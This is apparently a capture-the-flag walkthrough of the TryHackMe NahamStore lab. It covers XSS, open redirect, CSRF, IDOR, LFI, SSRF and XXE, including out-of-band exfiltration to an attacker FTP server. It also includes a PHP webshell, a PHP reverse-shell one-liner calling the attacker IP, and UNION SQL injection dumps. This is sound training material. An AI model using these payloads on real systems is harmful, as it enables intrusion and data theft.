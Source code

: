 # 77 - NahamStore

Room Link --> [https://tryhackme.com/room/nahamstore](https://tryhackme.com/room/nahamstore)

When enumerating subdomains you should perform it against the `nahamstore.thm`  domain.

### Enumeration

{% code overflow="wrap" %}
```bash
nmap -Pn -n -vv 10.10.176.114 -p- -T4 -sV

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack
80/tcp   open  http    syn-ack nginx 1.14.0 (Ubuntu)
8000/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
```
{% endcode %}

### Sub-Domain Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -c -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://nahamstore.thm -H "Host: FUZZ.nahamstore.thm" -fw 125

www
shop
marketing
stock
```
{% endcode %}

#### Gobuster dir enum (port 80)

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak -b 404,403

/search
/login
/register
/uploads
/staff
/css
/js
/returns
/logout
/basket
```
{% endcode %}

`stock.nahamstore.thm` .

THere is an endpoint here `/product` .

<figure><img src=".gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

`marketing.nahamstore.thm` .

<figure><img src=".gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

## Task 4 - XSS

{% code overflow="wrap" lineNumbers="true" %}
```bash
# dir enum for marketing.nahamstore.thm
gobuster dir -u http://marketing.nahamstore.thm -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html,db,sql,bak,zip -b 404,403 --no-error -t 200 -ic
```
{% endcode %}

<figure><img src=".gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

So i tried the `error` parameter and found the XSS endopoint.

[http://marketing.nahamstore.thm/?error=\<script>alert("XSS")\</script](http://marketing.nahamstore.thm/?error=%3Cscript%3Ealert\(%22XSS%22\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

### Stored XSS

_First Let us add the product to the basket._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*vzP2Ek1DLPk427nvzVP_9w.png" alt="" height="272" width="700"><figcaption><p><em><strong>Click the add to basket</strong></em></p></figcaption></figure>

_Now click the **item**:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*o-mk-PruWW-Lp3cmyx8vzg.png" alt="" height="264" width="700"><figcaption><p><em><strong>Click the item</strong></em></p></figcaption></figure>

_On the item page if you did not add any address add it by clicking the **green color button**. As I have added an address so I am directly clicking the **blue button**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*0ER9c5egRjrc9W5cCfvc0g.png" alt="" height="269" width="700"><figcaption><p><em><strong>The item page</strong></em></p></figcaption></figure>

_After clicking the blue button. I have gone to the **/basket** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*_op1_okBPbqb8CmwizhhsQ.png" alt="" height="303" width="700"><figcaption><p><em><strong>The basket page</strong></em></p></figcaption></figure>

Add credit card details and make payment: `1234123412341234` .

We can see our `User-Agent` info there.

<figure><img src=".gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Putting an XSS payload in the `User-Agent` field works.

Use burpsuite to intercept the request, then change the "User-Agent" field to an XSS payload.

<figure><img src=".gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

And it worked.

<figure><img src=".gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape <a href="#html-tag-escape" id="html-tag-escape"></a>

_Let us enter a product. I have chosen the second one. I have add it to the **basket** and then went to the item page. After that, I clicked on the item and came to the below page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XoMEByX85TSjBvEXz7Rouw.png" alt="" height="307" width="700"><figcaption></figcaption></figure>

_We see the URL: **http://nahamstore.thm/product?id=1\&name=Hoodie+++Tee**_

_Now let's try to change the data of the **name** parameter and put a random string. I have written name=abc. Command: **http://nahamstore.thm/product?id=1\&name=dking**_

<figure><img src=".gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

_Here we can see that we have changed the data of the **name** parameter but **nothing change occurs on the page**. So let us visit the **view page source**._

<figure><img src=".gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

We can escape from the `<title>` tag and run our payload. Intercept with burpsuite.

`http://nahamstore.thm/product?id=1&name=</title><script>alert("HTML Escape")</script>` .

<figure><img src=".gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

### JS Variable Escape

In the main page, search for a product "love"

<figure><img src=".gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

We can see the search term `love` appeared in a Javascript script. We can escape the `search` variable and get XSS using this payload.

`love';alert("JS Escape"); //` .

And we got XSS

<figure><img src=".gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

### Hidden Parameter

Hidden parameter in Homepage is `q` .

<figure><img src=".gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### HTML Tag Escape

In the `return` page there is a `<textarea>` tag that we can escape to get XSS.

<figure><img src=".gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Using this payload we get another XSS

`Large size </textarea><script>alert("RETURN Escape")</script>` .

<figure><img src=".gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

### Non-existing Endpoint

_Let us visit any URL which is not on the website. For example **http://nahamstore.thm/product**_

_The **URL** redirected us to the below page._

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Doing this gives us XSS

[http://nahamstore.thm/\<script>alert(123)\</script](http://nahamstore.thm/%3Cscript%3Ealert\(123\)%3C/script%3E)>

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Hidden Param

_Visit one of the product pages:_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*P3k4xVczxY4o5AYDtG5Nvg.png" alt="" height="309" width="700"><figcaption><p><strong>The page</strong></p></figcaption></figure>

_Just write something in the **discount** box and press the **Add to Basket** button._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*EZs1FwNsYR__3hj2i8x2lw.png" alt="" height="192" width="700"><figcaption><p><strong>After writing in the discount box</strong></p></figcaption></figure>

_See that you cannot see anything in the **discount** box whatever you wrote._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*c5GQg_xz36KXcYkqPVFYyg.png" alt="" height="287" width="700"><figcaption><p><strong>Nothing is shown</strong></p></figcaption></figure>

_Let us go to the **page source** and see nothing is written in the **value**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*9I19LB4msMUTOeIrJWkRFg.png" alt="" height="289" width="700"><figcaption><p><strong>The view source</strong></p></figcaption></figure>

_Nothing is written in the **value** parameter._

_Let us make a little bit of a change in the URL. let us make the **discount** variable **GET** method instead of the **POST** method. Command: **http://nahamstore.thm/product?id=1\&added=1\&discount=12345**_

_After the change see that the web page is showing the input of the **discount** you gave._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*8cYl51h30nXYYiGgeF6fLg.png" alt="" height="284" width="700"><figcaption><p><strong>The discount value is showing</strong></p></figcaption></figure>

_Let us go to the **page source** and see the value written in the **value parameter** of the **discount** box._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*ycAz2e1cD7uq3fQOd1hYkw.png" alt="" height="284" width="700"><figcaption><p><strong>The design code</strong></p></figcaption></figure>

_Now run the payload and let us make some changes in the design. Command : **http://nahamstore.thm/product?id=1\&added=1\&discount=12345" onmouseover=alert(document.cookie);//”**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*DAyBY7JVZ3eSHV3AMosaeQ.png" alt="" height="191" width="700"><figcaption><p><strong>The payload works</strong></p></figcaption></figure>

## Open Redirect

[https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters](https://pentester.land/blog/open-redirect-cheatsheet/#common-injection-points--parameters)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

### Parameter 1

Fuzzing using ffuf:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/?FUZZ=http://10.18.88.214' -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -fs 4254

r
```
{% endcode %}

[http://nahamstore.thm/?r=http://10.18.88.214](http://nahamstore.thm/?r=http://10.18.88.214)

[http://nahamstore.thm/?r=https://google.com](http://nahamstore.thm/?r=https://google.com)

We get redirected to my local web server. Workw with "google.com" too.

### Parameter 2

_Let us recon on the URL: **http://nahamstore.thm/account/**_

_Command: **dirsearch -u http://nahamstore.thm/account/ -w /usr/share/wordlists/dirBuster\_list/directory-list-2.3-medium.txt**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3WAfeVXR6Tq0wF3DdYILyA.png" alt="" height="217" width="700"><figcaption><p><strong>The recon</strong></p></figcaption></figure>

_This recon redirects us to and URL: **/login?redirect\_url=**_

_Let us visit the URL: **http://nahamstore.thm/login?redirect\_url=**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*m_cs_qHSgIdoVsig82nTLg.png" alt="" height="308" width="700"><figcaption><p><strong>The login page</strong></p></figcaption></figure>

_Now let us log in to the account of our own. But before that let us do this to the URL: **http://nahamstore.thm/login?redirect\_url=https://google.com** and then press the **login** with providing **email and password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*qYqb2I2OVugL2vmhCEAMNg.png" alt="" height="306" width="700"><figcaption><p><strong>On the login page</strong></p></figcaption></figure>

_Let us log in. During login, it **redirected** me to the **Google website**. :_

<figure><img src="https://miro.medium.com/v2/1*0o8ncwhSLSyF06_PXV3Mzw.png" alt="" width="700"><figcaption><p><strong>The redirected website</strong></p></figcaption></figure>

Answer is --> `redirect_url` .

## CSRF

_Let us go to **Accounts->Settings.**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*zrtnNj4I2fasbOVgIyKOgA.png" alt="" height="275" width="700"><figcaption><p><strong>The setting page.</strong></p></figcaption></figure>

_Let us start **intercept on** the button of the **burp suite**._

_Now, let us visit the **Change Email** option and catch its traffic._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*IUvKIAt4pYPdmzilVjt61Q.png" alt="" height="306" width="700"><figcaption><p><strong>The traffic of change email.</strong></p></figcaption></figure>

_Let us forward the **traffic** and see where it goes. It took us to the **/settings/email** page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Q0EVPlABf8YTBuagPxYiKA.png" alt="" height="302" width="700"><figcaption><p><strong>The setting page</strong></p></figcaption></figure>

_Now click the **Change Email** and catch its traffic in the **burp suite**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*3epWpO6152U3MhO0hgHjYA.png" alt="" height="311" width="700"><figcaption><p><strong>The traffic of the /settings/email</strong></p></figcaption></figure>

_So this page is not the answer._

_Let us visit the second option **Change Password**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*YQvUECp7up4ZBgYDDq4Xdg.png" alt="" height="285" width="700"><figcaption><p><strong>The /settings/password page</strong></p></figcaption></figure>

_Let us click the **Change Password** option and catch its traffic in the **burp suite** and see it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*XJOIEWDHr3c_2hDPuLVahg.png" alt="" height="313" width="700"><figcaption><p><strong>There is no csrf token</strong></p></figcaption></figure>

_So this URL is the answer._ [_http://nahamstore.thm/account/settings/password_](http://nahamstore.thm/account/settings/password)

_**What field can be removed to defeat the CSRF protection**_

On the [email change page](http://nahamstore.thm/account/settings/email) there is a CSRF protection (hidden input field with an anti-CSRF token).

```html
<form method="post">
    <input type="hidden" name="csrf_protect" value="eyJkYXRhIjoiZXlKMWMyVnlYMmxrSWpvMExDSjBhVzFsYzNSaGJYQWlPaUl4TmpNeE1EUXdNREkySW4wPSIsInNpZ25hdHVyZSI6IjQyZWY1OWJlNTM2YTcxOTU5ZDQ0OGJmODc1N2Q1NDZhIn0=">
    <div><label>Email:</label></div>
    <div><input class="form-control" name="change_email" value="noraj@noraj.fr" ></div>
    <div style="margin-top:7px">
        <input type="submit" class="btn btn-success pull-right" value="Change Email"></div>
</form>
```

<figure><img src=".gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Providing a wrong value will fail but removing the parameter will bypass the protection.

_Answer: **csrf\_protect**_

<figure><img src=".gitbook/assets/image (495).png" alt=""><figcaption></figcaption></figure>

It is encoded in `base64` .

## IDOR

_First, let us add something to the **Shopping basket** And then **add an address**._

On Burp Intercept, then click on the Address you just added.

<figure><img src=".gitbook/assets/image (497).png" alt=""><figcaption></figcaption></figure>

So just edit the `address_id` parameter to any number and you dump address details of other users.

<figure><img src=".gitbook/assets/image (496).png" alt=""><figcaption></figcaption></figure>

To exploit the second IDOR, you need to:

1. place and complete an order
2. go to the order page and select it
3. click on the `PDF Receipt` button

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*VXiMooDsTUYjUu2XoGf2zw.png" alt="" height="307" width="700"><figcaption><p><strong>The /account/orders/9 page</strong></p></figcaption></figure>

_Now let us on the **burp suite** and on the button **intercept on**._

_Now let us press the button **PDF Recept** and catch the **live traffic** of the page._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xW-tgXPo-7q2Li82JlZAmA.png" alt="" height="308" width="700"><figcaption><p><strong>The order receipt traffic</strong></p></figcaption></figure>

_Now let us change the **id** parameter to **3** and **forward** it._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*xJPXIynUouRYKf9rRlOmaA.png" alt="" height="316" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_Here we see that the **order id** does not match the **user\_id.** So let us add the **user\_id** parameter in the traffic. Command: **what=order\&id=3\&user\_id=3**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*oXCjDf24AHjx5680Inq4EQ.png" alt="" height="312" width="700"><figcaption><p><strong>The pdf page</strong></p></figcaption></figure>

_It did not work. So let us use some other techniques. Command: **what=order\&id=3%26user\_id=3**_

The idea was to URL encode it `&` sign so that `3&user_id=3` becomes the value of `id`.

<figure><img src=".gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

Answer --> Order Date: `22/02/2021 11:42:13` .

## LFI

Add an item to the basket.

Turn on burpsuite intruder, then Clilck the item:

<figure><img src=".gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

_Now let us click the **forward** button_.

_When the bellow request will be shown send it to the **repeater**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*UtVnskI6x3hwKI5YX1nTCg.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

`/....//....//....//....//....//lfi/flag.txt` - This payload worked

<figure><img src=".gitbook/assets/image (500).png" alt=""><figcaption></figcaption></figure>

## SSRF

There is a _Check stock_ button on the product page.

<figure><img src=".gitbook/assets/image (501).png" alt=""><figcaption></figcaption></figure>

Catch it in Burp Intercept and forward  to Repeater.

<figure><img src=".gitbook/assets/image (502).png" alt=""><figcaption></figcaption></figure>

The `server` parameter value seems to be a domain name.

But if we put another value, we have an error about the bad server name so we must keep `stock.nahamstore.thm` and still find a way to bypass it.

With `server=stock.nahamstore.thm@127.0.0.1` we have a 404 for page

<figure><img src=".gitbook/assets/image (503).png" alt=""><figcaption></figcaption></figure>

But with `server=stock.nahamstore.thm@127.0.0.1#` we are hitting the home page.

<figure><img src=".gitbook/assets/image (504).png" alt=""><figcaption></figcaption></figure>

Let's try to discover an internal sub-domain:

{% code overflow="wrap" lineNumbers="true" %}
```bash
ffuf -u 'http://nahamstore.thm/stockcheck' -c -w /opt/SecLists/Discovery/DNS/dns-Jhaddix.txt -X POST -d 'product_id=2&server=stock.nahamstore.thm@FUZZ.nahamstore.thm#'

internal-api
```
{% endcode %}

We found one `internal-api.nahamstore.thm`

`server=stock.nahamstore.thm@internal-api.nahamstore.thm#` .

<figure><img src=".gitbook/assets/image (505).png" alt=""><figcaption></figcaption></figure>

We found an endpoint --> `/orders` .

```
{"server":"internal-api.nahamstore.com","endpoints":["\/orders"]}
```

Checking it out.

<figure><img src=".gitbook/assets/image (506).png" alt=""><figcaption></figcaption></figure>

```json
[
  {
    "id": "4dbc51716426d49f524e10d4437a5f5a",
    "endpoint": "\/orders\/4dbc51716426d49f524e10d4437a5f5a"
  },
  {
    "id": "5ae19241b4b55a360e677fdd9084c21c",
    "endpoint": "\/orders\/5ae19241b4b55a360e677fdd9084c21c"
  },
  {
    "id": "70ac2193c8049fcea7101884fd4ef58e",
    "endpoint": "\/orders\/70ac2193c8049fcea7101884fd4ef58e"
  }
]
```

We can check every order.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/4dbc51716426d49f524e10d4437a5f5a#` .

<figure><img src=".gitbook/assets/image (507).png" alt=""><figcaption></figcaption></figure>

We are seeing full details for other users.&#x20;

Checking 2nd order id.

`server=stock.nahamstore.thm@internal-api.nahamstore.thm/orders/5ae19241b4b55a360e677fdd9084c21c#` .

<figure><img src=".gitbook/assets/image (508).png" alt=""><figcaption></figcaption></figure>

```json
{
  "id": "5ae19241b4b55a360e677fdd9084c21c",
  "customer": {
    "id": 2,
    "name": "Jimmy Jones",
    "email": "jd.jones1997@yahoo.com",
    "tel": "501-392-5473",
    "address": {
      "line_1": "3999  Clay Lick Road",
      "city": "Englewood",
      "state": "Colorado",
      "zipcode": "80112"
    },
    "items": [
      {
        "name": "Hoodie + Tee",
        "cost": "25.00"
      }
    ],
    "payment": {
      "type": "MasterCard",
      "number": "5190216301622131",
      "expires": "11\/2023",
      "CVV2": "223"
    }
  }
}
```

## XXE

_Let us visit the subdomain: **stock.nahamstore.thm**_

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*icpEcXSigmrC7mohvBHvEA.png" alt="" height="280" width="700"><figcaption><p><strong>The main page</strong></p></figcaption></figure>

_Let us visit the page **/product**. Command : **stock.nahamstore.thm/product**_

<figure><img src=".gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*My4ti-9W04d-cC97HlXiNQ.png" alt="" height="307" width="700"><figcaption><p><strong>In the burp repeater</strong></p></figcaption></figure>

_Let us change the request method from **GET** to **POST**._

<figure><img src=".gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

Now we FUZZ for allowed parameters on the Product, using `/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt` wordlist.

We see that the `xml` parameter returns.

<figure><img src=".gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

_Now let us copy the **XML** code from the **response** and paste it into the **request**._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*Bym1Dx0kFCVdaPxq51-DXQ.png" alt="" height="309" width="700"><figcaption><p><strong>After pasting</strong></p></figcaption></figure>

_Now let us **send** the request again._

<figure><img src="https://miro.medium.com/v2/resize:fit:481/1*PNwIxGBYBJ_yTP6ST0aSEA.png" alt="" height="310" width="700"><figcaption><p><strong>The request</strong></p></figcaption></figure>

_**X-Token** is not present._

The error suggest we did not provide `X-Token` even if we have the HTTP header present. It means in XML mode the HTTP header is ignored and must be expecting a XML value.

{% code overflow="wrap" %}
```xml
// Some code# send this as request
<?xml version="1.0"?>
	<data>
	<X-Token>
d31ng
</X-Token>
	</data>l
```
{% endcode %}

Outputs

<figure><img src=".gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

Since the value we provided is reflected, the first thing that come to mind is to perform an XXE attack.

We can read the /etc/passwd file with this payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

<figure><img src=".gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

Reading the 1st flag with:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///flag.txt'>]>
	<data>
	<X-Token>
&test;
</X-Token>
	</data>
```

### Blind XXE / OOB XXE

There is a page that let us upload xlsx files: [http://nahamstore.thm/staff](http://nahamstore.thm/staff)

But what is an XLSX? Just a zip with XML files inside. So if value are extracted from it there is a chance for XXE.

We can consult PayloadsAllTheThings for [OOB](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#exploiting-blind-xxe-to-exfiltrate-data-out-of-band) & [XLSX](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md#xxe-inside-xlsx-file) payloads (OOB because the values are not reflected).

First I created a spreadsheet file with LibreOffice Calc (`xxe.xlsx`).

Let's extract the ZIP:

```bash
# extract the xxe.xlsx file into a dir XXE.
7z x -oXXE xxe.xlsx
```

<figure><img src=".gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

I added the OOB XXE payload inside `xl/workbook.xml`.

{% code title="workbook.xml" %}
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE cdl [<!ELEMENT cdl ANY ><!ENTITY % asd SYSTEM "http://10.18.88.214:8000/xxe.dtd">%asd;%c;]>
<cdl>&rrr;</cdl>
<workbook xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:r="http://schemas.openxmlforma>

```
{% endcode %}

Let's rebuild the spreadsheet:

```bash
# updates the xxe.xlsx file.
7z u ../xxe.xlsx *
```

Using a remote DTD will save us the time to rebuild a document each time we want to retrieve a different file. Instead we build the document once and then change the DTD. And using FTP instead of HTTP allows to retrieve much larger files.

{% code title="xxe.dtd" overflow="wrap" %}
```xml
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'ftp://10.9.19.77:2121/%d;'>"> 
```
{% endcode %}

<figure><img src=".gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

All the files are set.

Start the FTP + HTTP server:

```bash
python3 -m http.server 8000
```

Download [xxeftp](https://github.com/staaldraad/xxeserv) you have to compile it with `GO` --> "go build xxeftp.go"

```bash
xxeftp  -o files.log -p 2121 -w -wd public -wp 8000
```

Upload the `xxe.xlsx` file.

<figure><img src=".gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Immediately our FTP and HTTP server should receive the `/flag.txt` file.

<figure><img src=".gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ cat files.log                                                                          
USER:  anonymous
PASS:  anonymous
//e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=
SIZE
MDTM
USER:  anonymous
PASS:  anonymous
SIZE
PASV
```
{% endcode %}

Decode the base64 --> `e2Q2YjIyY2IzZTM3YmVmMzJkODAwMTA1YjExMTA3ZDhmfQo=`&#x20;

Outpur --> {d6b22cb3e37bef32d800105b11107d8f}

## RCE

### 1st RCE Flag / PHP webshell

Enumerating port 8000.

{% code overflow="wrap" %}
```
gobuster dir -u http://nahamstore.thm:8000 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -b 404,403 --no-error -t 200

admin
```
{% endcode %}

<figure><img src=".gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

[http://nahamstore.thm:8000/admin/login](http://nahamstore.thm:8000/admin/login)

We can login with `admin : admin`&#x20;

<figure><img src=".gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

This is  the same dashboard at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

Here the admin panel allows us to modify the templates of the page displayed at [http://marketing.nahamstore.thm/](http://marketing.nahamstore.thm/)

I replaced the description paragraph with a simple webshell:

```php
<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>
```

Then it's easy to execute a command:&#x20;

[http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id](http://marketing.nahamstore.thm/8d1952ba2b3c6dcd76236f090ab8642c/?cmd=id)

<figure><img src=".gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (540).png" alt=""><figcaption></figcaption></figure>

### 2nd Flag / Blind RCE

We already found an IDOR in the `user_id` param of the PDF generator function (PDF Receipt) but there is also a RCE in the `id` one.

_In the **id** parameter we will use this payload :_&#x20;

{% code overflow="wrap" %}
```bash
$(php -r '$sock=fsockopen("10.18.88.214",9000);exec("/bin/sh -i <&3 >&3 2>&3");')
```
{% endcode %}

_We will encode it to the URL_

<figure><img src=".gitbook/assets/image (543).png" alt=""><figcaption></figcaption></figure>

_Our payload request will be:_

{% code overflow="wrap" %}
```
what=order&id=4%24%28%70%68%70%20%2d%72%20%27%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%22%31%30%2e%31%38%2e%38%38%2e%32%31%34%22%2c%39%30%30%30%29%3b%65%78%65%63%28%22%2f%62%69%6e%2f%73%68%20%2d%69%20%3c%26%33%20%3e%26%33%20%32%3e%26%33%22%29%3b%27%29
```
{% endcode %}

Setup nc listener, use burpsuite intercept to intercept the traffic then modify the value of `id` and we get shell.

<figure><img src=".gitbook/assets/image (544).png" alt=""><figcaption></figcaption></figure>

From here we can read `/etc/hosts` and find some useful domains for the recon section.

{% code title="/etc/hosts" %}
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.4      2431fe29a4b0
127.0.0.1       nahamstore.thm
127.0.0.1       www.nahamstore.thm
172.17.0.1      stock.nahamstore.thm
172.17.0.1      marketing.nahamstore.thm
172.17.0.1      shop.nahamstore.thm
172.17.0.1      nahamstore-2020.nahamstore.thm
172.17.0.1      nahamstore-2020-dev.nahamstore.thm
10.131.104.72   internal-api.nahamstore.thm
```
{% endcode %}

## SQLI

### In-band

By entering an invalid ID for the product, I got an error message for MySQL out of it.

[http://nahamstore.thm/product?id=1'](http://nahamstore.thm/product?id=1%27)

<figure><img src=".gitbook/assets/image (545).png" alt=""><figcaption></figcaption></figure>

#### No of Columns

Playing around i see there are 5 columns there.

```sql
1099 UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

#### DB Version

```sql
1099 UNION SELECT NULL,@@version,NULL,NULL,NULL-- -
```

<figure><img src=".gitbook/assets/image (547).png" alt=""><figcaption></figcaption></figure>

#### DBs / Schemas

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(SCHEMA_NAME),NULL,NULL,NULL FROM information_schema.SCHEMATA-- -

# information_schema,nahamstore
```
{% endcode %}

#### Tables

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(table_name),NULL,NULL,NULL FROM information_schema.tables WHERE table_schema="nahamstore"-- -

# product,sqli_one
```
{% endcode %}

#### Columns

{% code overflow="wrap" %}
```sql
# columns for "sqli_one" table.
1099 UNION SELECT NULL,GROUP_CONCAT(column_name),NULL,NULL,NULL FROM information_schema.columns WHERE table_name="sqli_one"-- -

# flag,id
```
{% endcode %}

#### Dump Data

{% code overflow="wrap" %}
```sql
1099 UNION SELECT NULL,GROUP_CONCAT(flag,id),NULL,NULL,NULL FROM nahamstore.sqli_one-- -

{d890234e20be48ff96a2f9caab0de55c}1
```
{% endcode %}

### Inferential SQLi <a href="#inferential-sqli" id="inferential-sqli"></a>

The second one is pretty hard to identify. It happens in the `/return` request:

The easiest way to exploit it will be to save the request to a file and pass it to sqlmap.

<figure><img src=".gitbook/assets/image (548).png" alt=""><figcaption></figcaption></figure>

{% code title="req.txt" %}
```
POST /returns HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------86688607116737285133964723420
Content-Length: 419
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/returns
Cookie: token=da26c04730a46d6acdae6f7236802d6e; session=981b443ffdb368f8f31f9c4591fd020c
Upgrade-Insecure-Requests: 1

-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="order_number"

1
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_reason"

2
-----------------------------86688607116737285133964723420
Content-Disposition: form-data; name="return_info"

Hell
-----------------------------86688607116737285133964723420--

```
